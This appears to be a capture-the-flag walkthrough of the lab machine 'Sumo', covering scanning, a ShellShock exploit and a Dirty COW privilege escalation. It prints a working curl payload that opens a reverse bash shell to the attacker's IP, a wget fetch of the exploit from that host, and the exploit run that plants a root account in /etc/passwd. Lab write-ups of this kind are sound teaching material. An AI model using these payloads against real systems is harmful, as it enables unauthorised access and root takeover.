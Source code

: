 # PG Play - Sumo

#### Ip: 192.168.235.211
#### Name: Sumo
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ sudo nmap -p-  --min-rate 10000 192.168.234.87 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 12:56 CDT
Nmap scan report for 192.168.234.87
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.46 seconds
```

Taking a look at the page on port 80 we find a static, generic It Works page:

![site.png](../assets/sumo_assets/site.png)

Kicking off a Nikto scan against the target, we find a `/cgi-bin/test` directory and Nikto indicates it may be vulnerable to ShellShock.

![nikto.png](../assets/sumo_assets/nikto.png)

Lets try it out.

### Exploitation

We can exploit this using curl:

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.177/443 0>&1" \http://192.168.234.87/cgi-bin/test 
```

And get a shell on the back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.234.87] 54270
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ hostname
hostname
ubuntu
```

From here I can grab the local.txt flag:

![user_flag.png](../assets/sumo_assets/user_flag.png)

### Privilege Escalation

Transfering over LinPEAS, we see that the box is vulnerable to Dirty Cow:

![lp.png](../assets/sumo_assets/lp.png)

We can transfer the exploit over, but get an error when trying to compile:

```text
www-data@ubuntu:/tmp$ wget http://192.168.45.177/dirtycow.c
wget http://192.168.45.177/dirtycow.c
--2023-09-11 11:18:03--  http://192.168.45.177/dirtycow.c
Connecting to 192.168.45.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

     0K ....                                                  100%  778K=0.006s

2023-09-11 11:18:03 (778 KB/s) - `dirtycow.c' saved [4814/4814]

www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
gcc -pthread dirtycow.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

To fix this we'll need to update the path:

```text
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

We can now compile and run the exploit:

```text
www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ chmod +x dirty
www-data@ubuntu:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7fb55734a000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'pass'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'pass'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Nice, that worked. Lets grab the final flag:

![root_flag.png](../assets/sumo_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------
